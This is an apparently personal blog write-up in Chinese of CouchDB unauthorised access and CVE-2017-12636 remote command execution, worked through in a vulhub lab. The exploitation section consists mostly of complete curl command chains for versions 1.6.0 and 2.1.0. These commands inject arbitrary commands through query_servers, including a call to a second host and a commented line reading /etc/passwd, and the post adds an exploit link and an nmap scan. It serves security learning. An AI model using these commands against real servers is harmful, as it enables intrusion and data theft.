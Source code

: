 # CouchDB未授权访问&命令执行


#### 漏洞简介以及危害
Apache CouchDB是一个开源数据库,专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式,JavaScript作为查询语言,MapReduce和HTTP作为API的NoSQL数据库。
应用广广泛,如BBC用在其动态内容展示平台,Credit Suisse用在其内部的商品部⻔的市场框架,Meebo,用在其社交平台(web和应用程序),默认会在`5984端口`开放Restful的API接口口,如果使用
SSL的话就会监听在`6984端口`,用于数据库的管理功能。其HTTP Server默认开启时没有进行行行验证,而且绑定在0.0.0.0,所有用户均可通过API访问导致未授权访问。
在官方方配置文文档中对HTTP Server的配置有WWW-Authenticate:Set this option to trigger
basic-auth popup on unauthorized requests,但是很多用户都没有这么配置,导致漏洞产生。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

影响版本：小于 1.7.0 以及 小于 2.1.1


#### 漏洞环境
vulnhub

#### 漏洞利用
CVE-2017-12636是需要登录用户方可触发，如果不知道目标管理员密码，可以利CVE-2017-12635[CVE-017-12635](https://blog.csdn.net/JiangBuLiu/article/details/94027581)先【增加一个管理员用户】，如果无须帐号密码，就可通过未授权访问进行命令执行
同样，记得在Burp的拦截端口添加一个5984


进入环境，并启动
```bash
cd couchdb/CVE-2017-12636/
docker-compose up -d
```


###### 未授权访问测试
```bash
curl http://192.168.0.100:5984
curl http://192.168.0.100:5984/_config
```

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/CouchDB%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE1.png"></img>

###### 任意命令执行漏洞

```bash
# 本机python运行http服务(可以不运行这个步骤，这里只是做curl测试用的)
python -m SimpleHTTPServer 8888
```

1.6.0 下

```bash
#依次执行如下命令
curl -X PUT 'http://192.168.0.100:5984/_config/query_servers/cmd' -d '"curl http://192.168.0.105:8888/test.php"' # 这里可以执行任意命令
#curl -X PUT 'http://192.168.0.100:5984/_config/query_servers/cmd' -d '" cat /etc/passwd >> tmp/ext_passwd"' 
curl -X PUT 'http://192.168.0.100:5984/vultest'    # 添加一个Database和Document
curl -X PUT 'http://192.168.0.100:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://192.168.0.100:5984/vultest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'      # 在这个Database里查询，将language设置为cmd，这里就会用到我第一步里添加的名为cmd的query_servers，最后触发命令执行
```

2.1.0 下
```bash
# 2.1.0中修改了1.6.0用到的两个API
# Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。我们带上账号密码访问/_membership即可
curl http://<your-ip>:5984/_membership

# 利用(跟1.6.0类似)
curl -X PUT http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/CVE-2017-12636_is_success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'    #先增加一个Database和一个Document
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
#Couchdb 2.x删除了_temp_view，所以我们为了触发query_servers中定义的命令，需要添加一个_view
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"
#增加_view的同时即触发了query_servers中的命令。
```

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/CouchDB%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE2.png"></img>

exp地址

```
https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py
```

**nmap扫描**

```bash
nmap -p 5984 --script "couchdb-stats.nse" <target_ip>
```


#### 防御手段
- 绑定指定ip
- 设置访问密


---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/couchdb%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/  

